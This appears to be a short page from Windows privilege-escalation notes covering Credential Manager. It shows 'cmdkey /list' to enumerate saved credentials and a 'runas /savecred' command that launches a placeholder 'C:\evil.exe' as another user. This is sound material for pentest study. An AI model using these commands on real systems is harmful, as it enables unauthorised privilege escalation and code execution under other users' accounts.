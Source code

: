# Credential Manager

The Windows Credential Manager allows users to store login information for websites, applications, networks, etc. This section outlines how to check for credentials within the manager that may be leveraged for privilege escalation.

## Verification

List stored credentials using the following command to determine if any are present:

```batch
cmdkey /list
```

### Attack

While stored credentials can be viewed, **they cannot be extracted without elevated privileges**. However, they can be utilized, for example, if they belong to another user, using the **runas** command:

```batch
runas /savecred /user:[user] "C:\evil.exe"
```
